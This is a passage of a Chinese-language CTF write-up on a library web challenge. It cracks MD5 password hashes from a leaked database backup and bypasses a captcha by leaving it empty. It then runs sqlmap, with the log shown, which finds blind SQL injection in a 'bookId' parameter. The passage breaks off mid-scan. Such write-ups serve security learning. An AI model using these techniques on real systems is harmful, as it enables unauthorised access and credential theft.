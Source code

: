 Step 2：

```sql
INSERT INTO `user` VALUES (10000,'e10adc3949ba59abbe56e057f20f883e','李狗蛋','PHP1班',1,0,'2018-10-17 20:26:57'),(10010,'122216df50e346f876165689692c56b2','王小明','PHP2班',1,0,'2018-10-16 15:36:04'),(18888,'7ad1bd006316d446d07dfa34780d4c30','王五','PHP3班',1,0,'2025-03-27 14:44:31'),(88888,'9c3848fd45c43eab590da076ceebdc4c','赵六','PHP2班',0,0,'2018-10-18 10:11:31');
```

我们在`/db_backup.sql`中惊喜的发现这些字段，挨个上一遍[cmd5.com](https://cmd5.com/default.aspx)，发现`李狗蛋`的密码是`123456`

Step 3:

验证码直接留空可以绕过验证（这个是真抽象，不知道后端怎么实现的

然后就每一个暴露出来的API接口全日一遍：

```
➜  sjtuctf--library sqlmap --cookie="PHPSESSID=0305d73004b98acb3281cae00917f640" -u "http://ggj4833p4wxqqyeq.instance.penguin.0ops.sjtu.cn:18080/?p=Home&c=Borrow&a=prolong" --data="bookId=123"
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.8.7#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:49:18 /2025-04-02/

[20:49:18] [INFO] testing connection to the target URL
[20:49:18] [INFO] testing if the target URL content is stable
[20:49:19] [INFO] target URL content is stable
[20:49:19] [INFO] testing if POST parameter 'bookId' is dynamic
[20:49:19] [WARNING] POST parameter 'bookId' does not appear to be dynamic
[20:49:19] [INFO] heuristic (basic) test shows that POST parameter 'bookId' might be injectable (possible DBMS: 'MySQL')
[20:49:19] [INFO] heuristic (XSS) test shows that POST parameter 'bookId' might be vulnerable to cross-site scripting (XSS) attacks
[20:49:19] [INFO] testing for SQL injection on POST parameter 'bookId'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]

for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]

[20:49:24] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:49:25] [WARNING] reflective value(s) found and filtering out
[20:49:25] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:49:25] [INFO] POST parameter 'bookId' appears to be 'Boolean-based blind - Parameter replace (original value)' injectable (with --not-string="Sql语句错误")
[20:49:25] [INFO] testing 'Generic inline queries'
[20:49:25] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[20:49:26] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[20:49:26] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[20:49:26] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[20:49:26] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[20:49:26] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[20:49:26] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[20:49:26] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
```
